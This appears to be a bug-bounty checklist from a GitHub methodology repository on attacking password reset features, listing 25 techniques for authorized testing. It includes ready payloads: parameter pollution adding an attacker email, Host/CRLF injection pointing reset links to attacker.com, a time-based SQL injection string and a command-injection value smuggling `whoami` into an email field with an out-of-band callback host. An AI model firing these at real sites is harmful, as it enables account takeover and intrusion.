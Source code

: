 # Testing Password Reset Functionality

1. Look for Password Reset Poisoning.

2. HTTP Parameter Pollution:

```

email=victim@gmail.com&email=attacker@gmail.com

email[]=victim@gmail.com&email[]=attacker@gmail.com

email=victim@gmail.com%20email=attacker@gmail.com

email=victim@gmail.com|email=attacker@gmail.com

{"email":"victim@gmail.com","email":"attacker@gmail.com"}

{"email":["victim@gmail.com","attacker@gmail.com"]}

```

Check if you can reset victim's password using the link received in attacker's inbox.

3. Look for IDOR while resetting password through password reset link. Use paramminer to discover additional parameters or append previously known parameters (For example, you may find a parameter uid while updating your profile) in the request.

4. Broken Crypto - Check if you can guess how the password reset tokens are generated.

5. Password reset token Leakage via referral header - Open the password reset link and click on any external links available in the page. 

6. Token leakage in response/JS files - Search for the password reset token in the response of the request or in JS files.

7. Session/Token is not expiring after password reset.

8. Weak Password Policy - Add only space in password.

9. Request for 2 password reset links and try the older one.

10. Try:

```

POST https://attacker.com/resetpassword.php HTTP/1.1

POST @attacker.com/resetpassword.php HTTP/1.1

POST :@attacker.com/resetpassword.php HTTP/1.1

POST /resetpassword.php@attacker.com HTTP/1.1

```

Check if the password reset link is manipulated or not.

11. SQLi: ```test@test.com'+(select*from(select(sleep(2)))a)+'```

12. CRLF: ```/resetpassword?%0d%0aHost:%20attacker.com```

13. Register with a username identical to the victim's username, but with white spaces inserted before and/or after the username("tuhin1729 ", " tuhin1729 " etc). Try a password reset for your account. Use the token to reset victim's password. A similar vulnerability was found in CTFd ([CVE-2020-7245](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7245))

14. Application Level DoS - Try to set a very long password and check if the response time is delayed or if you get a 5xx response.

15. If they are sending an otp for password reset, try [2FA Bypass](https://github.com/tuhin1729/Bug-Bounty-Methodology/blob/main/2FA.md) techniques.

16. During registration, use homograph in email. Now try password reset.

17. Change the request method and content-type and observer how the application is responding.

18. Append null bytes after your email and observe the response.

19. Try XSS, SSTI etc in the email field.

20. Try Command injection by ```email=hello@`whoami`.xyz.burpcollaborator.net```

21. 2FA auto disabled after password reset.

22. User Enumeration.

23. Check whether any param value is reflecting in the email. Now try HTMLi.

24. XXE (if forgot-password request accepts xml).

25. Missing Rate Limit - Email triggering.

Reference:

- https://twitter.com/tuhin1729_/status/1437471718142976007

- https://speakerdeck.com/tuhin1729/account-takeover-via-exploiting-misconfigured-password-reset-feature

- https://speakerdeck.com/tuhin1729/abusing-password-reset-functionality
